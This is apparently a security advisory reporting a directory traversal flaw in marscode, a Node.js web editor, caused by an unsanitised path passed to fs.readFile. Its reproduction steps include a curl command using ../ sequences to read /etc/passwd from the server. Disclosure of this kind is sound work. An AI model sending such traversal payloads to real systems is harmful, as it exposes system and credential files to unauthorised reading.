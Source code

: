 # Overview

marscode is a web editor created with monaco-editor, jquery file tree and nodejs file tree to read, write, edit, delete (CRUD) files.

Affected versions of this package are vulnerable to Directory Traversal. There is no path sanitization in the path provided at `fs.readFile` in `index.js`.

# Steps to reproduce

  1. Start the server node index.js
  2. `curl -v --path-as-is http://127.0.0.1:8080/../../../../../../../../../../../etc/passwd`
  3. `/etc/passwd` of the current user will be displayed.
